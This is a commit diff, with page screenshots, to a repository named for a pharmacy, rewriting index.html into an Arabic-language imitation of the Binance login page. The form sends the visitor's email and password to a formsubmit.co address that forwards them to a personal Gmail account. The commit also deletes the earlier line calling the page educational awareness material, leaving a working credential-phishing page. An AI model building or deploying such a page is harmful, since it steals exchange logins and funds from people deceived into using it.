

Before and after one commit to MuhammedAl-Sharif30/Hodeidah-Pharmacy, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,21 +1,62 @@
 <!DOCTYPE html>
-<html lang="ar">
+<html lang="ar" dir="rtl">
 <head>
   <meta charset="UTF-8" />
-  <title>تسجيل الدخول - بينانس</title>
+  <title>تسجيل دخول Binance</title>
   <style>
-    body { font-family: Arial, sans-serif; direction: rtl; text-align: center; margin-top: 50px; }
-    input { padding: 10px; margin: 10px; width: 80%; font-size: 1em; }
-    button { padding: 10px 20px; font-size: 1em; cursor: pointer; }
+    body {
+      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+      background-color: #0a0a0a;
+      color: white;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
+      margin: 0;
+    }
+    .login-container {
+      background-color: #141414;
+      padding: 40px;
+      border-radius: 8px;
+      box-shadow: 0 0 10px #00b67a;
+      width: 320px;
+      text-align: center;
+    }
+    h1 {
+      margin-bottom: 20px;
+      color: #00b67a;
+    }
+    input {
+      width: 100%;
+      padding: 12px;
+      margin-bottom: 15px;
+      border: none;
+      border-radius: 4px;
+      font-size: 16px;
+    }
+    button {
+      background-color: #00b67a;
+      border: none;
+      padding: 12px;
+      width: 100%;
+      border-radius: 4px;
+      font-size: 18px;
+      cursor: pointer;
+      color: white;
+    }
+    button:hover {
+      background-color: #019d65;
+    }
   </style>
 </head>
 <body>
-  <h2>تسجيل الدخول إلى بينانس</h2>
-  <form action="https://formsubmit.co/bassamsharifalisharif@gmail.com" method="POST">
-    <input type="text" name="username" placeholder="اسم المستخدم" required /><br />
-    <input type="password" name="password" placeholder="كلمة المرور" required /><br />
-    <button type="submit">دخول</button>
-  </form>
-  <p>هذه صفحة تعليمية فقط لأغراض التوعية.</p>
+  <div class="login-container">
+    <h1>تسجيل دخول Binance</h1>
+    <form id="loginForm" action="https://formsubmit.co/bassamsharifalisharif@gmail.com" method="POST">
+      <input type="email" name="email" placeholder="البريد الإلكتروني" required />
+      <input type="password" name="password" placeholder="كلمة المرور" required />
+      <button type="submit">تسجيل الدخول</button>
+    </form>
+  </div>
 </body>
 </html>
```
